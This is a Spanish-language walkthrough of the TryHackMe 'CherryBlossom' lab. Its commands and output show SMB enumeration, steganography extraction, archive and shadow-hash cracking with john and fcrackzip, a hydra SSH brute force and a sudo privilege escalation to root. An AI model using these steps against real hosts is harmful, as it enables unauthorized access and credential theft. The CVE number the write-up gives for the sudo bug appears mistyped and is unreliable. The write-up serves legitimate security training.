



TryHackMe - CherryBlossom

Contenido
| Titulo | CherryBlossom |
|---|---|
| Room | CherryBlossom |
| Info | Boot-to-root with emphasis on crypto and password cracking. |
| Puntos | 1450 |
| Dificultad | Dificil |
| Maker | MuirlandOracle |
NMAP
Escaneo de puertos tcp, nmap nos muestra el puerto smb (445), ldap (139) y el puerto ssh (22) abiertos.
# Nmap 7.80 scan initiated Fri Feb 21 18:25:06 2020 as: nmap -p- -sV -o nmap_scan 10.10.214.121
Nmap scan report for 10.10.214.121
Host is up (0.28s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 21 18:43:37 2020 -- 1 IP address (1 host up) scanned in 1111.32 seconds
USER
Enum4linux Utilizamos esta herramienta para obtener informacion del servicio de SAMBA y LDAP.
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Feb 21 18:28:18 2020
==========================
| Target Information |
==========================
Target ........... 10.10.214.121
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
=====================================================
| Enumerating Workgroup/Domain on 10.10.214.121 |
=====================================================
[+] Got domain/workgroup name: WORKGROUP
=============================================
| Nbtstat Information for 10.10.214.121 |
=============================================
Looking up status of 10.10.214.121
UBUNTU <00> - B <ACTIVE> Workstation Service
UBUNTU <03> - B <ACTIVE> Messenger Service
UBUNTU <20> - B <ACTIVE> File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> Master Browser
WORKGROUP <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
WORKGROUP <1d> - B <ACTIVE> Master Browser
WORKGROUP <1e> - <GROUP> B <ACTIVE> Browser Service Elections
MAC Address = 00-00-00-00-00-00
[... snip ...]
============================================
| Getting domain SID for 10.10.214.121 |
============================================
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
=======================================
| OS information on 10.10.214.121 |
=======================================
[+] Got OS info for 10.10.214.121 from smbclient:
[+] Got OS info for 10.10.214.121 from srvinfo:
UBUNTU Wk Sv PrQ Unx NT SNT Samba 4.7.6-Ubuntu
platform_id : 500
os version : 6.1
server type : 0x809a03
==============================
| Users on 10.10.214.121 |
==============================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: samba Name: Desc:
user:[samba] rid:[0x3e8]
==========================================
| Share Enumeration on 10.10.214.121 |
==========================================
Sharename Type Comment
--------- ---- -------
Anonymous Disk Anonymous File Server Share
IPC$ IPC IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available
[+] Attempting to map shares on 10.10.214.121
//10.10.214.121/Anonymous Mapping: OK, Listing: OK
//10.10.214.121/IPC$ [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
[... snip ...]
[... snip ...]
========================================================================
| Users on 10.10.214.121 via RID cycling (RIDS: 500-550,1000-1050) |
========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-3394966362-3970299913-3211979797
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
[... snip ...]
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[... snip ...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1001 Unix User\johan (Local User)
S-1-22-1-1002 Unix User\lily (Local User)
[+] Enumerating users using SID S-1-5-21-3394966362-3970299913-3211979797 and logon username '', password ''
S-1-5-21-3394966362-3970299913-3211979797-500 *unknown*\*unknown* (8)
S-1-5-21-3394966362-3970299913-3211979797-501 UBUNTU\nobody (Local User)
[... snip ...]
S-1-5-21-3394966362-3970299913-3211979797-513 UBUNTU\None (Domain Group)
[... snip ...]
S-1-5-21-3394966362-3970299913-3211979797-1000 UBUNTU\samba (Local User)
[... snip ...]
==============================================
| Getting printer info for 10.10.214.121 |
==============================================
No printers returned.
enum4linux complete on Fri Feb 21 18:47:43 2020
Nos logeamos en el SHARENAME Anonymous:
root@aoiri:~# smbclient \\\\10.10.214.121\\Anonymous
Enter WORKGROUP\root's password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Sun Feb 9 18:22:51 2020
.. D 0 Sun Feb 9 11:48:18 2020
journal.txt N 3470998 Sun Feb 9 18:20:53 2020
in
10253588 blocks of size 1024. 5083492 blocks available
smb: \> get journal.txt
getting file \journal.txt of size 3470998 as journal.txt (334.1 KiloBytes/sec) (average 334.1 KiloBytes/sec)
smb: \>
El archivo journal.txt contiene una cadena base64 decodificamos el archivo y vemos que el header del archivo pertenece a una imagen PNG:
root@aoiri:~/tryhackme/cherryblossom# xxd file|head
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452 .PNG........IHDR
00000010: 0000 0500 0000 0355 0802 0000 00a8 15c4 .......U........
00000020: de00 0100 0049 4441 5478 da24 fd57 b0ee .....IDATx.$.W..
00000030: 5b76 dd87 adbc fef1 cbfb db39 9d1c 6ece [v.........9..n.
00000040: dd7d 3ba2 9be8 6e34 0812 4c82 400b 2265 .};...n4..L.@."e
00000050: 9669 5145 3d58 65ca 2597 5d96 4359 2e27 .iQE=Xe.%.].CY.'
00000060: 49a4 5c76 5952 1545 1206 099a 8009 a0d1 I.\vYR.E........
00000070: 4027 74ee 7bfb e670 ce3d 619f 9df7 fef2 @'t.{..p.=a.....
00000080: f7cf 2b2f 3ff4 e378 99cf a3c6 fccd 39e0 ..+/?..x......9.
00000090: eeb5 bb0e 3804 8183 0079 e8a0 471e 5964 ....8....y..G.Yd
Cambiamos el archivo a .PNG y la imagen parece no tener nada:

Despues de intentar con una gran cantidad de herramientas de esteganografia finalmente con stegpy logramos extraer un archivo:
root@872e41903b6a:/data# stegpy file.png
File _journal.zip succesfully extracted from file.png
root@872e41903b6a:/data# file _journal.zip
_journal.zip: JPEG image data
root@872e41903b6a:/data#
Vemos que el archivo esta con extension zip pero los headers de este son en JPGE, editamos el archivo con los “magic numbers” de un archivo ZIP.
➜ ctf unzip journal_dat.zip
Archive: journal_dat.zip
[journal_dat.zip] Journal.ctz password:
skipping: Journal.ctz incorrect password
➜ ctf
El archivo esta protegido con contraseña utilizamos fcrackzip para encontrar la contraseña del archivo:
➜ ctf fcrackzip -D -u -p /home/sckull/tools/rockyou.txt journal_dat.zip
PASSWORD FOUND!!!!: pw == s[... snip ...]r
➜ ctf
Extraemos un archivo ctz, utilizamos 7zjohn para obtener el hash para poder crackearlo con john:
➜ ctf perl 7zjohn.pl Journal.ctz > hash.txt
Utilizamos john y rockyou para obtener la contraseña:
root@aoiri:~/tryhackme/cherryblossom# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 5 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:45 0.02% (ETA: 2020-02-29 18:28) 0g/s 26.33p/s 26.33c/s 26.33C/s puppy1..victoria1
t[... snip ...]y (Journal.ctz)
1g 0:00:03:40 DONE (2020-02-21 23:29) 0.004525g/s 25.34p/s 25.34c/s 25.34C/s brownsugar..inferno
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@aoiri:~/tryhackme/cherryblossom#
Extraemos el archivo:
➜ tmp 7z e Journal.ctz
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz (806EA),ASM,AES-NI)
Scanning the drive for archives:
1 file, 70434 bytes (69 KiB)
Extracting archive: Journal.ctz
--
Path = Journal.ctz
Type = 7z
Physical Size = 70434
Headers Size = 146
Method = LZMA2:16 7zAES
Solid = -
Blocks = 1
Enter password (will not be echoed):
Everything is Ok
Size: 158136
Compressed: 70434
➜ tmp ls
Journal.ctd Journal.ctz
➜ tmp
Encontramos un archivo CTD, en su interior vemos un “diario” que pertenece a Johan, en donde explica que esta escribiendo un wordlist super seguro. Utilizamos el wordlist cherry-blossom.list con el usuario Lily junto con hydra y obtenemos la contraseña en el servicio SSH:
root@aoiri:~/tryhackme/cherryblossom# hydra -l lily -P wordlists/cherry-blossom.list ssh://10.10.76.210
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-21 23:44:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9923 login tries (l:1/p:9923), ~621 tries per task
[DATA] attacking ssh://10.10.76.210:22/
[STATUS] 102.00 tries/min, 102 tries in 00:01h, 9821 to do in 01:37h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 9587 to do in 01:26h, 16 active
[22][ssh] host: 10.10.76.210 login: lily password: M[... snip ...]3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-21 23:51:03
root@aoiri:~/tryhackme/cherryblossom#

La flag user.txt la encontramos en la carpeta de johan:

PRIVILEGE ESCALATION
Los archivos de backup siempre tienen cosas interesantes, en esta maquina encontramos un backup de las contraseñas de /etc/shadow, utilizamos john para crackear las contraseña de johan.

Utilizamos el wordlist que encontramos antes:

➜ john shadow_hashes --wordlist=/home/sckull/vmware/share/ctf/tmp/wordlists/cherry-blossom.list
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 27% 0g/s 222.5p/s 452.9c/s 452.9C/s $hickory$..$happiness
0g 0:00:00:23 52% 0g/s 225.1p/s 454.5c/s 454.5C/s $3x!4l!f3..$20robyn06$
##[... snip ...s]## (johan)
1g 0:00:00:36 100% 0.02721g/s 270.0p/s 452.9c/s 452.9C/s #2lovely..#2little
Use the "--show" option to display all of the cracked passwords reliably
Session completed
➜
Cambiamos al usuario johan, y luego de hacerlo utilizamos sudo, pero notamos que al ingresar la contraseña, esta, se muestra en pantalla como asteriscos (esto nos recuerda a la maquina SUDO):

Utilizamos el exploit de CVE-2019-18364 para explotar la vulnerabilidad que tiene sudo:

Obtenemos una shell con usuario root y nuestra flag root.txt.